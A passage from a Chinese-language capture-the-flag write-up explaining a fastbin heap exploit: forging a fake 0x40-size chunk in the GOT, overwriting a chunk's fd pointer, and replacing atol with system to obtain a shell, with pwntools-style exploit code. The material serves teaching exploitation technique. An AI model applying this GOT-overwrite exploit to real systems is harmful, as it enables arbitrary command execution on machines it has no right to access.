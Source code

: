 [![](https://p4.ssl.qhimg.com/t014496cfa0537b6504.png)](https://p4.ssl.qhimg.com/t014496cfa0537b6504.png)

调试状态中可以看到的确如此，

[![](https://p4.ssl.qhimg.com/t0178833ed6681d4399.png)](https://p4.ssl.qhimg.com/t0178833ed6681d4399.png)

至此我们已经成功地在0x40大小的fastbins中成功留下了一个堆块，我们千方百计达成此目的，因为libc在对fastbin的管理中还有一次检查操作，在从0x40大小的fastbin链表中取出堆块时，如果检测到该堆块的size不为0x40-0x4f,则会失败退出，因而我们覆盖的时候随便填一个值是不可行的,必须是伪造好size值的堆块，而在got表中，没有被resolve的函数地址所保存的值为plt表的地址，即0x40xxxx，经过指令对齐操作，便可以将其变成0x00000040，此时内存中便有一个DWORD的值为0x40，可用此绕过libc的检测。此处需注意libc的检查只需要满足低32位是0x4x即可，高32位即使有值也可以通过检查。

直接查看got表中0x604018的地址时，可得其中的值如下：

[![](https://p0.ssl.qhimg.com/t010e6085348dae2e4d.png)](https://p0.ssl.qhimg.com/t010e6085348dae2e4d.png)

但是在手动将其值调整一下时，可以得到这样的结果：

[![](https://p2.ssl.qhimg.com/t01e84938e44e01d6ac.png)](https://p2.ssl.qhimg.com/t01e84938e44e01d6ac.png)

在0x60404a处存储的值即为0x40。接着发送构造好的payload：

```
new_pdu(0, 0, "AA"*0x10, True)
new_pdu(0, 0, "BB"*0x30, True)
fake_fd = convert(0x604042) #0x60404a is 0xxxx00000000040 , 0x604042-&gt;size=0x40
offset  = 0x61adb0-0x61ac20
new_pdu(0, offset, fake_fd, True)
```

这段代码可以将上面构造的0x61adb0处fastbin的fd覆盖掉成0x60404a-8，下次申请两次，即可申请到这个伪造的堆块。此处需要减8，是因为在64位系统下，libc在取chunk-&gt;size的值时，实际上是进行的+8操作。

最后（终于到了最后），我们申请两次0x40大小的串即可向got表(0x60404a+8)。在写的过程中，可以选择将atol函数覆盖为任意地址，比如，system函数的地址。那么下次再输入seq_num等值时，就会触发system("your input")，从而达到任意命令执行的效果。这里需要注意为了使程序运行正常，需要先把got表中已经resolve的地方给换回去，换成plt表中相应的地址，关于这部分的内容可阅读《Linux中的GOT和PLT到底是个啥？》，英文原文《PLT and GOT – the key to code sharing and dynamic libraries》。

```
payload = "66"*6 # libc_start_main
payload += convert(0x400b26)  # resolve fgets 0x400b26
payload += convert(0x400b36)  # resolve strlen 0x400b36
payload += convert(libc_base + libc.symbols['system']) # hijack atol
payload = payload.ljust(0x60, '0')
new_pdu(0, 0, payload , False ) # payload
```

至此已经成功地将atol函数替换成了system的地址，接着，只需要再send("sh")，即可get shell。

```
io.sendlineafter("SEQ #:", "sh")
```

[![](https://p5.ssl.qhimg.com/t01efcd9df38ba86618.png)](https://p5.ssl.qhimg.com/t01efcd9df38ba86618.png)



**4. 总结**

本文所涉及的题目及exp代码已上传至云盘http://pan.baidu.com/s/1dE6wxXn 密码: w22h，若有不当之处恳请斧正。



